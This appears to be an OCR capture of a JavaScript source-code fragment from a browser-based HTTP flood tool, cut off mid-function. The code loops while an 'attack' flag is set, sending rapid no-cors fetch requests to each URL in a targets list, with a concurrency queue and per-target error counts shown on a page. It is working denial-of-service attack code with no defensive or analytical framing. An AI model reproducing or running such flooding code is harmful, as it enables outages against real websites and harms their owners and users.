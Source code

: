 ```target list
        var totalerrors = 0;

        function togglePause () {
            if (attack) {
                attack = false;
                document.querySelector("div.desc .btn").innerText = "Resume";
            } else {
                attack = true;
                document.querySelector("div.desc .btn").innerText = "Pause";
                for (var i=0; i<urls.length; i++) {
                    flood(i);
                }
            }
        }

        async function fetchWithTimeout(resource, options) {
            const controller = new AbortController();
            const id = setTimeout(() => controller.abort(), options.timeout);
            return fetch(resource, {
                signal: controller.signal,
                mode: 'no-cors'
            }).then((response) => {
                clearTimeout(id);
                return response;
            }).catch((error) => {
                clearTimeout(id);
                throw error;
            });
        }

        async function sleep(ms) {
            return new Promise(r => setTimeout(r, ms));
        }         

        async function flood(n) {
            const url = urls[n];
            const target = targets[url];

            while (attack) {
                if (queue.length > CONCURRENCY_LIMIT) {
                    await queue.shift();
                }
                queue.push(
                    fetchWithTimeout(url, { timeout: 2000 })
                        .catch((error) => {
                            if (error.code === 20 /* ABORT */) {
                                return;
                            }
                            target.number_of_errored_responses++;
                            target.error_message = error.message;
                            totalerrors++;
                        })
                        .then((response) => {
                            if (response && !response.ok) {
                                target.number_of_errored_responses++;
                                target.error_message = response.statusText;
                                totalerrors++;
                            }
                            target.number_of_requests++;
                        })
                        .finally(() => updateTargetDisplay(n))
                );

```